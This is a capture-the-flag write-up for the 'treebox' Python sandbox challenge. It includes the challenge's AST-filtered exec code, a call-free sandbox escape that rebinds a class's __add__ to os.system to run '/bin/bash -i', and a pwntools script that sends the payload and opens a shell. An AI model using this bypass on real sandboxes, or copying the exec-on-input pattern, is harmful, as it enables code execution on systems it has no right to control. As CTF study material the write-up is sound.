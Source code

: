 ## TREEBOX
### Attachment
```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
### Description
This challenge belongs to the sandbox category, and uses python and takes arbitrary python script input from the client and verifies the program with the `verify_secure()` function.
```python
...snip...
def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True
...snip...
```
And here we need to pass this function to execute malicious python script to server, and we need to pass 3 walls:
- ast.Import
- ast.ImportFrom
- ast.Call

After some time I found [this](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls) bypass in hacktricks to bypass `call ` and it worked!
```python
# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:__
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
```
class `Klecko()` creates a function that `__add__` something and returns 1, but adds the function `os.system` instead, and triggers it with "try except" and appends "/bin/bash -i" to the function of that class have os.system in it? I assume this class is an intermediary between the os.system function and the string "/bin/bash -i" thus producing a function like `os.system('/bin/bash -i')` without calling the `os.system` function. 
### Python Solution
```python
import pwn

payload = '''# Declare arbitrary exception class
class Klecko(Exception):
  def __add__(self,algo):
    return 1

# Change add function
Klecko.__add__ = os.system

# Generate an object of the class with a try/except + raise
try:
  raise Klecko
except Klecko as k:
  k + "/bin/bash -i" #RCE abusing __add__
--END'''
p = pwn.remote('treebox.2022.ctfcompetition.com', 1337)
p.recv(1024)
p.sendline(payload)
p.interactive()
```
I just added it to the payload and here we got the shell :)
### Reference
- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-execution-without-calls